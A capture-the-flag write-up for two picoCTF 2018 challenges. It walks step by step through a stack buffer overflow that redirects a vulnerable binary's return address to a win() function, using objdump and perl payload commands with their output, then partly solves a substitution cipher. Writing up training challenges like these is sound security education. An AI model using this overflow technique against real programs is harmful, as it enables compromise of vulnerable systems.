 # buffer overflow 1
### Binary Exploitation: 200p
Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this [program](https://2018shell2.picoctf.com/static/d6146450a41960f6ce43dbfb300d9ef4/vuln)? You can find it in /problems/buffer-overflow-1\_0\_787812af44ed1f8151c893455eb1a613 on the shell server. [Source](https://2018shell2.picoctf.com/static/d6146450a41960f6ce43dbfb300d9ef4/vuln.c).
```C
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```
The function win() prints the flag so we probably want to jump there. Let's find the address of the win function.
```
objdump -d vuln
...
080485cb <win>:
...
```
BUFSIZE is defined to 32. Let's see how long the input needs to be to overwrite the return address.
```
perl -e 'print "A"x40' | ./vuln
...Jumping to 0x80486b3
perl -e 'print "A"x44' | ./vuln
...Jumping to 0x8048600
```
Notice how the last byte changed to 0x00. That's the end-of-string zero-byte. Add 4 more to overwrite the return pointer.
```
perl -e 'print "A"x44 . "BCDE"' | ./vuln
Jumping to 0x45444342
```
Ok, the offset is right. Let's insert the address of win() instead of BCDE.
```
perl -e 'print "A"x44 . "\xcb\x85\x04\x08"' | ./vuln
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{flag}Segmentation fault
```
Note how the byte order in the address is reversed. To make a long story short, it is because of little endians.

# hertz 2
### Cryptography: 200p
This flag has been encrypted with some kind of cipher, can you decrypt it? Connect with nc 2018shell2.picoctf.com 12521.
```
nc 2018shell2.picoctf.com 12521
Let's decode this now!
Bfa qdrpv kncij ycx odlet cuan bfa shzm wcg. R phj'b kasraua bfrt rt tdpf hj ahtm encksal rj Erpc. Rb't hslctb ht ry R tcsuaw h encksal hsnahwm! Cvhm, yrja. Fana't bfa yshg: erpcPBY{tdktbrbdbrcj_prefant_hna_bcc_ahtm_ydctwksgiu}
```
Notice erpcPBY{, probably picoCTF. Go to quipqiup, paste the ciphertext and enter hints *e=p r=i p=c c=o P=C B=T Y=F*. Almost cracked. Starts with:
```
The ?uic? bro?n fo? ?umps over the la?y do?
vs
Bfa qdrpv kncij ycx odlet cuan bfa shzm wcg.
```